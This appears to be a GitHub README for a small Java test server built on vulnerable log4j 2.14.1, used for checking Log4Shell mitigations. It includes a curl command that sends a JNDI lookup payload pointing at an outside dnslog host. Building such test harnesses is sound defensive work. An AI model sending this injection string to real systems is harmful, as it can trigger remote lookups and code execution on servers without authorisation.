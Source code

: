 # log4Jtest
## Description
Simple Java http server running on port 8000 that logs all request params so you can attempt to validate various mitigations you may have in place

## Running
### Java Side
To test you can just execute from the bin directory and specify the version of log4J you want, can grab log4j versions from https://archive.apache.org/dist/logging/log4j/
```
java -cp "scratchpad/log4jtest/webserver/bin:scratchpad/log4jtest/apache-log4j-2.14.1-bin/log4j-core-2.14.1.jar:scratchpad/log4jtest/apache-log4j-2.14.1-bin/log4j-api-2.14.1.jar" --enable-preview App
```
### Client Side
Can just use CURL to URL encode a test:
```
curl -G --data-urlencode "test=\${jndi:ldap://4jediz.dnslog.cn/testing}" http://localhost:8000/
```

## Example
